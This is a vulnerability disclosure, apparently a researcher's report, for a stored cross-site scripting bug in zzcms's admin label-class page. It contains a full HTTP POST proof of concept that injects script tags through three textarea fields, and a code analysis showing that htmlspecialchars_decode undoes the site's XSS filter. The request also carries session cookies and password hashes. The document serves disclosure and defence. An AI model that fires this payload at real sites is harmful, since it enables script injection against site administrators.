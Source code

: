### /admin/labelclass.php exists stored xss

**Vulnerability Process**

Visit /admin/labeladclass.php

![image-20240826194519805](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826194519805.png)

Then enter the parameters

**POC**

```java
POST /admin/labelclass.php?action=add HTTP/1.1
Host: zzcms:8786
Content-Length: 258
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://zzcms:8786
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: 	text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://zzcms:8786/admin/labeladclass.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: tablename=zzcms_zhaoshangclass; askclassid=0; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; PassWord=4297f44b13955235245b2497399d7a93; UserName=aaaa; userid=1; __tins__713776=%7B%22sid%22%3A%201724603456590%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201724605579607%7D; __51laig__=34
Connection: keep-alive

title=1&title_old=&bigclassid=empty&numbers=1&column=1&start=</textarea><script>alert(1)</script><textarea>&mids=</textarea><script>alert(2)</script><textarea>&ends=</textarea><script>alert(3)</script><textarea>&Submit=%E6%B7%BB%E5%8A%A0%2F%E4%BF%AE%E6%94%B9
```

The default is 1.txt then click on 1.txt

![image-20240826194604192](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826194604192.png)

![image-20240826194613777](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826194613777.png)

Can pop up 1, 2, 3

This means that xss exists at all three points

Code Analysis

in the labelclass.php

Actually, there is a global filter for our xss.

But here the incoming parameter is passed through the stripfxg function

```java
$start=stripfxg($_POST["start"],true);
$mids=stripfxg($_POST["mids"],true);
$ends=stripfxg($_POST["ends"],true);
```

看到stripfxg函数

```java
function stripfxg($string,$htmlspecialchars_decode=false,$nl2br=false) {//去反斜杠 
$string=stripslashes($string);//去反斜杠,不开get_magic_quotes_gpc 的情况下，在stopsqlin中都加上了，这里要去了
if ($htmlspecialchars_decode==true){
$string=htmlspecialchars_decode($string,ENT_QUOTES);//转html实体符号
}
if ($nl2br==true){
$string=nl2br($string);
}
return $string; 
}
```

You can see that the htmlspecialchars_decode function is used to decode our input, resulting in no filtering of xss.

Then after the

```java
    <tr> 
      <td align="right" class="border" >解释（开始）</td>
      <td class="border" ><textarea name="start" cols="70" rows="10" id="start" ><?php echo $start?></textarea></td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（循环）</td>
      <td class="border" ><textarea name="mids" cols="70" rows="5" id="mids" ><?php echo $mids ?></textarea>      </td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（结束）</td>
      <td class="border" ><textarea name="ends" cols="70" rows="20" id="ends"><?php echo $ends ?></textarea></td>
    </tr>
```

Again, we entered our parameters into the page
